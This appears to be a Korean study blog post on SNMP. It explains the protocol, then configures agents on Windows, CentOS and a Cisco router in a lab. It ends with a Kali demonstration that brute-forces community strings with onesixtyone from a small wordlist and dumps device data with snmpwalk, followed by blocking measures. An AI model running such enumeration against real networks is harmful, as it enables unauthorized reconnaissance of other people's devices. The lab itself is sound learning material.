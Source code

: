 # SNMP

SNMP(Simple/small  Network Management Protocol)

- 간단한 네트워크 관리용 프로토콜

- `UDP 161 , 162` 포트 사용

  - 관리 시스템(Manager)
    - Agent에 필요한 정보를 요청하는 역할
    - 162/udp
  - 에이전트(Agent)
    - Agent가 설치된 시스템의 정보나 네트워크 정보 등을 수집하여 MIB 형태로 보관, Manager에 전달해주는 역할 수행
    - 161/udp

- 네트워크 구성 관리

  ▪ 네트워크 상의 호스트 구조 파악

- 성능 관리

  ▪ 네트워크 사용량, 처리속도, 응답시간 등 성능 분석에 필요한 통계정보 확인

- 장비 관리 ▪ 시스템정보(CPU, MEMORY, DISK 사용량) 확인

- 보안 관리 ▪ 정보의 제어 및 보호 기능

- Network Management System(NMS) ▪ 관리하기 위한 시스템 ▪ Manager : 관리시스템 안에 탑재하여 관리용 메시지를 Agent에 요청

- Managed Device ▪ 관리되는 장비들 ▪ Hub, Router, Switch, Bridge, Host 등 ▪ Agent : Managed Device 안에 탑재되는 관리 모듈

- Management Information Base(MIB) ▪ 관리 대상을 규격화한 정보 ▪ SNMP를 지원하는 모든 네트워크 장치는 MIB를 가짐 ▪ 관리장치(네트워크 장치)의 특정 정보와 자원을 객체(Object)의 형태로 모아놓은 집합체 ▪ 시스템정보, 네트워크사용량, 네트워크 인터페이스정보 등 ▪ 관리하기 쉽도록 Tree 구조를 가짐

- SNMP 버전

  - Manager와 Agent간 SNMP 버전이 일치해야 한다.
  - 1 / 2c /

- Community String

  - 상호간에 설정한 Community String이 일치해야 한다.

- PDU(Protocol Data Unit)

  - 통신하기 위한 메시지 유형

<br>

SNMP 구성![2022-12-12-01구성](../images/2022-12-12-SNMP/2022-12-12-01구성.jpg)

<br>

구성도

![2022-12-12-02구성도](../images/2022-12-12-SNMP/2022-12-12-02구성도.jpg)

<br>

##### NMS 설정

처음 구성

![2022-12-12-04처음구성](../images/2022-12-12-SNMP/2022-12-12-04처음구성.jpg)

<br>

###### Scanning

![2022-12-12-03스캔](../images/2022-12-12-SNMP/2022-12-12-03스캔.jpg)

<br>

##### agent 

###### 2008_R2 -> snmp 설치

![2022-12-12-05에이전트](../images/2022-12-12-SNMP/2022-12-12-05에이전트.jpg)

<br>

2008_R2 -> snmp 설정

![2022-12-12-06에이전트](../images/2022-12-12-SNMP/2022-12-12-06에이전트.jpg)

![2022-12-12-07에이전트](../images/2022-12-12-SNMP/2022-12-12-07에이전트-1670832273336-10.jpg)

<br>

###### centOS_7 -> snmp 설치

패키지 설치

![2022-12-12-08패키지설치](../images/2022-12-12-SNMP/2022-12-12-08패키지설치.jpg)

![2022-12-12-10설치확인](../images/2022-12-12-SNMP/2022-12-12-10설치확인.jpg)

```
yum -y install net-snmp net-snmp-utils       << 패키지 설치
rpm -qa | grep net-snmp                      << 설치 확인
```

<br>

설정 파일 백업

![2022-12-12-09설정파일백업](../images/2022-12-12-SNMP/2022-12-12-09설정파일백업.jpg)

```
mv /etc/snmp/snmpd.conf /etc/snmp/snmpd.conf.bak               << 설정 파일 백업
```

<br>

설정 파일 설정

![2022-12-12-11설정](../images/2022-12-12-SNMP/2022-12-12-11설정.jpg)

```
vim /etc/snmp/snmpd.conf

rocommunity     public  10.10.10.115
trap2sink       10.10.10.115 public 162
```

<br>

snmp 서비스 동작 확인

![2022-12-12-12재시작](../images/2022-12-12-SNMP/2022-12-12-12재시작.jpg)

```
systecmctl restart snmpd
systemctl status snmpd
```

<br>

w_7 -> scanning 후 확인

![2022-12-12-13확인](../images/2022-12-12-SNMP/2022-12-12-13확인.jpg)

<br>

###### cisco router/switch -> snmp

snmp 사용만 설정 (특정 주소 상관없이 snmp 정보)

```
R1(config)#snmp-server community public ro
```

<br>

snmp 설정 확인

![2022-12-12-14시스코](../images/2022-12-12-SNMP/2022-12-12-14시스코.jpg)

```
Community name: ILMI
Community Index: cisco0
Community SecurityName: ILMI
storage-type: read-only  active


Community name: public
Community Index: cisco1
Community SecurityName: public
storage-type: nonvolatile        active
```

<br>

w_7 -> sccaning 후 확인

![2022-12-12-15시스코](../images/2022-12-12-SNMP/2022-12-12-15시스코.jpg)

<br>

nmap 을 이용한 포트 점검

![2022-12-12-16앤맵](../images/2022-12-12-SNMP/2022-12-12-16앤맵.jpg)

<br>

kali2016 -> 공격 준비 후 공격

```
vim /root/dict.txt

public
private
test
```

![2022-12-13-17공격](../images/2022-12-12-SNMP/2022-12-13-17공격.jpg)

```
onesixtyone -c /root/dict.txt 10.10.10.254
```

<br>

snmpwalk 를 이용한 정보 획득

![2022-12-13-18공격](../images/2022-12-12-SNMP/2022-12-13-18공격.jpg)

```
snmpwalk -v 2c -c public 10.10.10.254
```

<br>

차단하는 방법

ACL, 방화벽 , TCP Wrapper  에서 차단, v3 로 버전을 upgrade  등의 방법이 있습니다.

<br>